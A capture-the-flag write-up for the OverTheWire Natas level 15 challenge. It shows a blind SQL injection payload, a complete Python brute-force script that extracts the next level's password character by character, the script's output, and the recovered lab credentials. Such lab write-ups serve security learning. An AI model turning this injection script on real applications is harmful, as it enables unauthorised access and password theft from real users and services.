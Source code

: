 # OverTheWire Wargames

## Natas Level 14 --> Level 15

**Username:** natas15

**Password:** AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

**URL:**      http://natas15.natas.labs.overthewire.org

 
**Solved with my best friend [Wasfy Elbaz](github.com/wasfyelbaz/)**

### Solution
* Click view sourcecode there you can see the query they use to access, there isn't anything special so we can inject simple code to bypass.
```
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```
* Try enter 'natas16' as username the response will be:
```
This user exists.
```
* So we need to get this username's password to solve this level.
* We can guess the password char by char using LIKE query
```
natas16" AND password LIKE BINARY "{char}%
``` 
* Write python script brute-force requests to get the password consist of 32 chars (like all natas passwords)
```python
import requests
import string

CHARS = list(string.ascii_lowercase + string.ascii_uppercase + "0123456789")

USER_AGENT = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"

headers = {
    'dnt': '1',
    'upgrade-insecure-requests': '1',
    'user-agent': USER_AGENT,
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
    'host': 'natas15.natas.labs.overthewire.org',
    'accept-Encoding': 'gzip, deflate',
    'origin': 'http://natas15.natas.labs.overthewire.org',
    'authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==',
    'connection': 'close',
    'referer': 'http://natas15.natas.labs.overthewire.org/',
    'sec-gpc': '1'
}

payload = ""
while len(payload) < 32:
  for char in CHARS:
    print(f"\rCurrent Char: {char} | Payload: {payload}", end="")
    url = f"http://natas15.natas.labs.overthewire.org/index.php?username=natas16%22+and+password+like+binary+%22{payload}{char}%&debug=1"
    response = requests.get(url, headers=headers)
    if "This user exists" in response.content.decode():
      payload += char
      break
```
```bash
┌─[darkknight@dark]─[~]
└──╼ $python3 blind_sql_user_gussing.py 
Current Char: h | Payload: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

```
* You got the password!!

### Natas16 Password
> WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
